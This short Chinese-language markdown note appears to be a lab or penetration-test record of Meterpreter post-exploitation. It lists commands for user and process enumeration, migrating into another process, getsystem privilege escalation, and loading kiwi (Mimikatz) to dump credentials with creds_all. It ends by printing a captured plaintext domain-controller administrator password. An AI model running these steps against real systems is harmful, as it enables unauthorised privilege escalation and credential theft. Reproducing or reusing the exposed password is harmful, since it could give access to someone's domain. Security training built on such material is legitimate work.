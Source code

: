 ## 获取当前用户信息

```
getuid
```

![image-20250603125405059](./assets/image-20250603125405059.png)



## 获取进程信息

```
getpid
ps
```

![image-20250603125419348](./assets/image-20250603125419348.png)



## 进程迁移

```
migrate 2936
getpid
```

![image-20250603125441965](./assets/image-20250603125441965.png)



## 提权

```
getsystem
```

提升至system权限



## hashdump

```
load kiwi
?
```

![image-20250603130952851](./assets/image-20250603130952851.png)

```
creds_all
getsystem
creds_all
```

![image-20250603131003636](./assets/image-20250603131003636.png)

尝试抓取，提示非system用户，getsystem后重新抓取

![image-20250603131024253](./assets/image-20250603131024253.png)

成功抓取域控管理员密码

```
zxcASDqw123!!
```

![image-20250603131035203](./assets/image-20250603131035203.png)